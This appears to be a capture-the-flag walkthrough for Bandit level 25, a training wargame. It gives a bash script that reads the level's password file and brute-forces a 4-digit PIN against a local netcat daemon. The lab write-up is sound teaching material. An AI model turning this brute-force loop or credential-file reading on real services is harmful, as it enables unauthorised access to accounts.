 __ Bandit Level 25 __
---

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Okay, so writing a bash script that inputs `cat /etc/bandit_pass/bandit24` + 0000 - 9999 into netcat.

We can use sequence for this.

```bash
#!/bin/bash
passb24=$(cat /etc/bandit_pass/bandit24)
for i in $(seq -w 9999); 
do
    echo $passb24 $i
done
```
Output this script into a file:
`./bf > /tmp/bflines`
Fire this file into netcat
`cat /tmp/bflines | nc localhost 30002`